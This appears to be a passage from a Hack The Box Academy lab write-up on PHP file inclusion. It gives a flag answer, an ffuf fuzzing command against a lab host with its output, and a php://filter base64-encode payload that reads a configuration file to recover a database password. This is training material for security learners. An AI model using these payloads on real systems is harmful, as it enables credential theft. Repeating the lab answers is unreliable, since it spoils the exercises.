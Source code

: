 **Answer**

```
HTB{64$!c_f!lt3r$_w0nt_$t0p_lf!}
```

## PHP Filters

### Questions

#### Question #02

**Question**

Fuzz the web application for other PHP scripts, and then read one of the configuration files and submit the database password as the answer.

```
┌─[eu-academy-1]─[10.10.15.180]─[htb-ac-1461567@htb-ugek9vhucv]─[~]
└──╼ [★]$ ffuf -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-small.txt:FUZZ -u http://94.237.63.98:45236/FUZZ.php -ic -t 10

[SNIP]

index                   [Status: 200, Size: 2652, Words: 690, Lines: 64, Duration: 17ms]
en                      [Status: 200, Size: 0, Words: 1, Lines: 1, Duration: 16ms]
es                      [Status: 200, Size: 0, Words: 1, Lines: 1, Duration: 16ms]
configure               [Status: 302, Size: 0, Words: 1, Lines: 1, Duration: 16ms]
```

```url
php://filter/read=convert.base64-encode/resource=config
```

![Firefox - PHP Filters 1](./assets/screenshots/file_inclusion_php_filters_1.png)

![Firefox - PHP Filters 2](./assets/screenshots/file_inclusion_php_filters_2.png)

